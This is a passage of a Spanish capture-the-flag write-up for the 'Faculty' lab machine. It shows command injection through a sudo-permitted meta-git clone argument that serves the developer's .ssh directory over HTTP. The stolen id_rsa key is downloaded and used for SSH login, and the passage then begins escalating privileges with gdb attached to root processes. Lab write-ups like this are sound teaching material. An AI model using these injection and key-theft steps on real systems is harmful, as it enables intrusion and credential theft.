 Solo queda obtener la llave privada `id_rsa` del usuario `developer` para entrar por **SSH** y conseguir la flag:

```console
gbyolo@faculty:/$ sudo -u developer /usr/local/bin/meta-git clone 'any text || /usr/bin/python3 -m http.server -d /home/developer/.ssh 1234 && foo'
meta git cloning into 'any text || /usr/bin/python3 -m http.server -d /home/developer/.ssh 1234 && foo' at .ssh 1234 && foo

.ssh 1234 && foo:
fatal: repository 'any' does not exist
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.14.76 - - [06/Aug/2022 01:28:22] "GET /id_rsa HTTP/1.1" 200 -
                    
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ wget -q http://10.10.11.169:1234/id_rsa
❯ chmod 600 id_rsa
❯ ssh -i id_rsa developer@10.10.11.169
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

Last login: Sat Aug  6 01:28:59 2022 from 10.10.14.76
developer@faculty:~$ find / -name user.txt 2>/dev/null | xargs ls -l
-rw-r----- 1 root developer 33 Aug  5 06:54 /home/developer/user.txt
```

> Tienes agregar al final del comando una coma `;` ó (`||` y `&&` seguidos por cualquier expresión), todo con el fin que valide el comando completo y no ocurran errores
{: .prompt-tip}

## Privilege Escalation

* * *

Como el usuario `developer` somos parte del grupo `debug`, entonces buscamos archivos que formen parte de este grupo y encontramos la aplicación/binario `gdb`:

```console
developer@faculty:~$ find / -group debug 2>/dev/null | xargs ls -l
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
```

Vemos que podemos usar el depurador `gdb`:

![GDB](gdb_def.png){: .shadow}

También con `gdb` podemos enlazarnos a un cierto proceso con `gdb -p <process_pid>`, examinar su código y también usar las librerías de los programas que son parte del proceso. Además si ese proceso es ejecutado como un **usuario privilegiado**, está claro que tendremos sus privilegios

> Primero debemos encontrar procesos que ejecute el usuario `root`

```console
developer@faculty:~$ ps aux | grep root
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...
root         615  0.0  0.0      0     0 ?        I<   Aug05   0:00 [kaluad]
root         616  0.0  0.0      0     0 ?        I<   Aug05   0:00 [kmpath_rdacd]
root         617  0.0  0.0      0     0 ?        I<   Aug05   0:00 [kmpathd]
root         618  0.0  0.0      0     0 ?        I<   Aug05   0:00 [kmpath_handlerd]
root         619  0.0  0.8 214604 17952 ?        SLsl Aug05   0:07 /sbin/multipathd -d -s
root         664  0.0  0.5  46324 10760 ?        Ss   Aug05   0:00 /usr/bin/VGAuthService
root         670  0.1  0.4 310256  8136 ?        Ssl  Aug05   1:19 /usr/bin/vmtoolsd
root         671  0.0  0.2  99896  5892 ?        Ssl  Aug05   0:00 /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
```